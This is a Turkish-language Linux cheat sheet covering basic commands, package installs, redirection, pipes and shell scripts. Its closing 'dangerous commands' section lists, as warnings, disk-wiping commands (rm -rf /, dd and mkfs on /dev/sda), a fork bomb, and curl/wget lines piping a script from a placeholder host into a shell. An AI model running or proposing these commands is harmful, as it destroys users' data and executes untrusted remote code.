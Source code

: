 # Linux Hile Kağıdı

## Temel komutlar

> Çoğu basit komut Unix benzeri olduğu için MacOS'e benzemektedir.

```bash
cd ./klasor # Klasörün içine girer

cd ./project/src # project içindeki src klasörünün içine girer

rm -rf ./klasor # belirtilen klasörü içindekilerle beraber siler.
# -r => Recursive => iç içe
# -f => Force => Zorla yaptır

## Dosya ya da klasör ismi yazarken tab tuşu yardımıyla otomatik tamamlayabilirsiniz

touch file.txt # file.txt adında yeni bir dosya açar

rm file.txt # file.txt dosyasını siler

cat file.txt # file.txt dosyasının içeriğini terminale basar

nano file.txt # file.txt dosyasını text editör ile açar. Kaydetmek için CTRL+O ve ENTER yapılır. Daha fazla işlem CTRL tuşu ile ekranın aşağısında ^ karakterinden sonra başlayan harfe basarak yapılabilir

vim file.txt # file.txt dosyasını text editör ile açar. Daha fazla bilgi: vim.md

sudo komut # bir komutu yönetici olarak çalıştırmanıza olanak tanır. Yönetici parolası gerekir

```

## Uygulama kurma

- Eğer çalıştığınız Linux distrosu Debian, Ubuntu ya da benzeri bir işletim sistemi ise `apt` komutu kullanılır.

```bash
sudo apt-get update
#Sistemdeki paket reposu güncellenmeden uygulama kurulması sisteminizi bozabilir
sudo apt-get install fastfetch
fastfetch
```

- Eğer çalıştığınız Linux distrosu Red Hat, Fedora, Alma, ya da Rocky ise `dnf` komutu kullanılır.

```bash
sudo dnf install fastfetch
fastfetch
```

- Paket ismini bilmiyorsanız kullandığınız işletim sistemi ile beraber paket ismi aratılmalıdır. Ama bazen komutu yazıp enterlarsanız, ve komut bulunamadı hatasından sonra da bunu görüyorsanız, işletim sistemi muhtemelen buradan da kurmanıza izin verecektir

```
> nest
bash: nest: komut bulunamadı...
'nest' paketi 'nest' komutunu sağlaması için kurulsun mu? [N/y] #y basılıp kurulabilir
```

- Sistem deposundan olmayan bir paket dışarıdan repo eklenerek kurulabilir. bu durumda eklenen repo'dan emin olunmalıdır

## Konsol çıktısını dosyaya kaydetme (stdout)

Eğer komuttan çıkan stdout akışını dosyaya kaydetmek isterseniz, bunu ">" ile yapabilirsiniz

```
komut > cikti.txt
```

`cikti.txt`yi herhangi bir not defteri uygulamasıyla açarsanız, uygulama çıktısını görebilirsiniz.

Örnek:

```
mysqldump db_name > yedek.sql
```

Eğer `>` yerine `>>` kullanırsanız, bu dosyayı silyaz yapmak yerine sonuna ekler.

## Konsolda input verme (stdin)

Küçüktür işaretinin tersi ile (`<`) dosyalarınızı komuta okutabilirsiniz

```bash
cat < notlar.txt
```

burada `notlar.txt` dosyasını `cat` komutu vasıtasıyla ekrana okutacaktır. Başka bir örnek ise önceki örnekte yapılan mysql yedeğini yüklemektir

```
mysql --user=user_name -p"sizin parolanız" db_name < yedek.sql
```

## Komuttan komuta veri gönderme (Pipe)

Bir uygulamadan diğer uygulamaya veri göndermek için pipe (`|`) operatörü kullanabilirsiniz

```bash
cat dosya.txt | grep -e "Aranan metin"
```

Eğer stdin'den veri almayı desteklemiyorsa, komutun sonuna `-` eklenebilir. Örn: veritabanı çıktısını vimde düzenlemek için:

```bash
mysqldump database | vim -
```

## Bir script oluşturma

Dilediğiniz text editorü kullanarak dosyanızı oluşturabilir ve .sh uzantısıyla kaydedebilirsiniz

```bash
nano script.sh # Nano editör
vim script.sh # Vim editör
code script.sh # VS Code klasörü eğer $PATH değişkenine ekliyse
# vscode olarak çalıştırılabilir. Linux'ta path variable'ına otomatik olarak
# eklenir ancak macos'ta f1 > "Shell Command: Install 'code' command in PATH"
# seçeneğini çalıştırmalısınız
gedit script.sh # gnome masaüstü ortamında gedit ile açmak için
kwrite script.sh # kde plasma ortamında kwrte ile açmak için
```

Bu scriptin içerisine terminalde çalıştırabildiğiniz komutları sırasıyla yazıp kaydedebilirsiniz.

```bash
#script.sh

export IMAGE_NAME='hcangunduz/kompaney-api'
export IMAGE_TAG='latest'
docker build -t ${IMAGE_NAME}:${IMAGE_TAG} .
docker push ${IMAGE_NAME}:${IMAGE_TAG}
```

Kaydettikten sonra dosyayı çalıştırabilmek için ayrıca son bir şey kalıyor.

```bash
sudo chmod +xrw script.sh
```

Scripti çalıştırabilmek için terminalde bunu çalıştırabilirsiniz

```bash
./script.sh
```

> Parametreler, İf, for kondisyonları ile ilgili daha fazla detayı [bash-script-extra.md](bash-script-extra.md) ye göz atabilirsiniz.

## ‼️‼️‼️Tehlikeli komutlar

```bash
rm -rf /
# Kök pathini tamamen siler. Ancak bu işletim sisteminizin diskiyle sınırlı kalmayacaktır. Mountlanmış (taktığınız ve dosya yöneticinizde "bağla" seçeneğini tıklamış olduğunuz) ne kadar disk varsa onlarla vedalaşmanız gerekecek

command >/dev/sda
# bir komutun çıktısını diske yazar. Dolayısıyla diski siler. işletim sisteminizin çalıştığı disk de olabilir

dd if=/dev/random of=/dev/sda
## if ile belirtilen imajı diske imajlar. of= parametresindeki diskin imajlamak istediğiniz disk olduğundan EMİN OLUN

mkfs.ext3 /dev/sda
## Diski formatlar

wget http://unknown.com.tr/script.sh -O-|sh
curl -o- http://unknown.com.tr/script.sh |sh
curl -o- http://unknown.com.tr/script.sh |bash
curl -o- http://unknown.com.tr/script.sh |zsh vs vs
## Uzaktan script çalıştırır. Çalıştırmadan önce siteden emin olun

history | sh
# geçmişte çalıştırdığınız komutları tekrar çalıştırır. Muhtemelen ilk formattan itibaren...

:(){ :|:& };:
# kod fork bombası olarak bilinir. Kendini sistem donana kadar çalıştırır (forklar).

"/dev/null içerikli herhangi bir kod"
# /dev/null karadelik olarak bilinir. mv dosya /dev/null yaparak dosyalarınızı kaybedebilirsiniz ve ya sisteminizi bozabilirsiniz.

```
